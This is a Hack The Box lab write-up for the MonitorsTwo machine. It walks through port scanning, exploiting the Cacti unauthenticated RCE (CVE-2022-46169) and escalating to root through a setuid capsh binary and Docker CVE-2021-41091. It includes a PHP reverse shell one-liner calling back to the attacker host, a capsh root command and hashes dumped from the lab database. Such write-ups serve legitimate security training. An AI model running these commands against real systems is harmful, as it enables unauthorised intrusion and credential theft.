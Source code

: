 
# Learning Objectives Met

- github release enumeration
- vulnerable docker application
- exposed user credentials / weak password



# Enumeration

NMAP enumeration is usually how I begin HTB challenges. The nmap command I start off with is an all port scan to see what is available on my target.

Command: nmap -p- 10.10.11.211 -oN scans/allPorts
Results

```bash
┌──(cal1㉿cal)-[~/htb/monitorstwo]
└─$ nmap -p- 10.10.11.211 -oN scans/allPorts    
Starting Nmap 7.92 ( https://nmap.org ) at 2023-08-16 21:09 EDT
Nmap scan report for 10.10.11.211
Host is up (0.048s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 51.27 seconds

```

At this point I have established that the target has an ssh and http server running. Before I begin poking around, I kick off another nmap scan. this time passing the flags -sC and -sV so I get enumerate the services a bit more and also start some common nmap scripts


Command: nmap -p22,80 -sC -sV 10.10.11.211 -oN scans/specificPorts
Results

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.73 seconds
```

>[!tip] Hot info
>Okay so notice that the title says login to cacti. Cacti could be the name of the server, of the application, etc. Smart to store
>that info and perform research later.

When looking at web traffic I usually port all of mines through BurpSuite and this time is no different. I open up firefox, turn on foxyproxy, and pass my traffic through burp. Below we can see the results of me visiting the index page and the information it revealed to me

![[Pasted image 20230816211801.png]]

and I also see
![[Pasted image 20230816211854.png]]

>[!tip] More Info
>We got a version number for CACTi, and we also know that the server is php based. Both two good tidbits of information to have.

Before we dig around some more, I shoot of a gobuster scan. I have extension php based on the information collected above about this server being php based.

Command: gobuster dir -e -u http://10.10.11.211 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o gobuster/small -x php
Results
![[Pasted image 20230818141108.png]]

While the gobuster was running I tried some basic passwords on the main login page for cacti and that didnt work. Before I got to password bruteforcing, or trying to discover some of the other pages popping up in gobuster, I decided to do some research on Cacti. Luckily enough I found a github page for the application at the following link:

Link: https://github.com/Cacti


From the main github page for cacti, I was able to navigate to the releases page. I wanted to see if there were any vulnerability fixes for the version of cacti I had.

Link: https://github.com/Cacti/cacti/releases

![[Pasted image 20230816213103.png]]

Got lucky and see that version 1.2.23 of cacti fixed the vulnerability above and there is a CVE put out for it. Unauthenticated sounds great considering I didnt have any creds so far. Google Showed me the following links.


Link to CVE: https://github.com/sAsPeCt488/CVE-2022-46169
Link to Blog Describing CVE: https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/




# Initial Shell

So after thoroughly reading about the exploit, I decided to give it a go. First things first was to download a version of the poc on github.
![[Pasted image 20230817082827.png]]

Once I had the CVE downloaded, I spun up a webserver using python, then issued a curl command back to my attack box using the poc.
![[Pasted image 20230817083008.png]]

>[!INFO]
>Note that the above image shows a whoami being passed but we do not see it in the request to our makeshift server. That is because I am lazy and crafted two images together. Trust me bro, it works

Alright so I knew the poc was working, but when I tried to spin up a reverse shell using netcat, I was unsucessful. To get a better idea of what was going under the hood, added some code to the poc that would pass all traffic through burpsuite first. This gave me a more granular look at what exactly was going on.

![[Pasted image 20230817083222.png]]

I figured out by the traffic captured that some of my reverse shell commands were not getting parsed well. In order to fix that I URL encoded everything and also I am now operating from repeater tab in burp suite as well.

Reverse Shell Used
```php
php -r '$sock=fsockopen("10.10.14.5",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Set up netcat listener
![[Pasted image 20230817083318.png]]

Fire Off Round in Burpsuite
![[Pasted image 20230817083414.png]]

>[!tip] Try multiple things
>In the original exploit, the author mentioned using the host IP of the victim machine to bypass the checks implemented. Using 127.0.0.1 worked for me so make sure you play around with more than just one idea.




Got My Initial Callback!
![[Pasted image 20230817083434.png]]


# Post Enumeration

Okay so I immediately start trying to find my way to root. Looking for programs with the setuid bit set showed me a program called capsh that allows a person root access.

SUID Bits
![[Pasted image 20230817084712.png]]

Link: https://gtfobins.github.io/gtfobins/capsh/
Command: $ /sbin/capsh --gid=0 --uid=0 --


Now this did give me root access but there were no root flags or user flags to find. The heck? Kept digging. 
Navigated to root directory and saw a file called entrypoint.sh

Found in /
![[Pasted image 20230818133208.png]]

I see some mysql creds in there so I reissue  the command to gain access to the cacti database. From there I saw a table called "auth_users", saw what columns it had, and pulled out the information I wanted

>[!tip] SCRIPT for the win!
>So before I issued the command to connect to mysql, I wanted an interactive shell. Python was not on the box so I could not get an interactive shell that way. I solved my problem by using script command to get me my shell
>
>script /dev/null -qc /bin/bash


![[Pasted image 20230818133346.png]]

```sql
+----+----------+--------------------------------------------------------------+
| id | username | password                                                     |
+----+----------+--------------------------------------------------------------+
|  1 | admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
|  3 | guest    | 43e9a4ab75570f5b                                             |
|  4 | marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----+----------+--------------------------------------------------------------+

```

Hashes
![[Pasted image 20230818133715.png]]


Cracked Password w John
![[Pasted image 20230818133634.png]]

Logged into marcus account.
![[Pasted image 20230818134323.png]]

Okay so logging into marcus account I was able to see the user.txt flag. But its weird that I didnt see this user before in the /etc/passwd file when I first got my initial shell on box. Whats going on?

I run processes and I see that docker is running!

Processes Running
![[Pasted image 20230818134400.png]]

Docker Running Version
![[Pasted image 20230818134430.png]]

I was more than likely in a docker container which explains why I was not able to see some information. Is there an exploit for this version of docker?

Exploit

Link: https://github.com/UncleJ4ck/CVE-2021-41091

![[Pasted image 20230818134820.png]]

PERFECT

# Gaining Root Shell

Download exploit
![[Pasted image 20230818134932.png]]

Transfer to Victim Machine using scp
![[Pasted image 20230818134955.png]]

On my shell thats inside the docker container I gain root access by taking advantage of the capsh program with the setuid bit set. From there I follow exploit instructions and change permissions on the /bin/bash program.
CHMOD bin/bash
![[Pasted image 20230818135030.png]]

Ran exploit POC on Marcus account
![[Pasted image 20230818135114.png]]


Got Root
![[Pasted image 20230818135145.png]]

And there you have it! A complete guide on how to pwn monitorsTwo for HTB


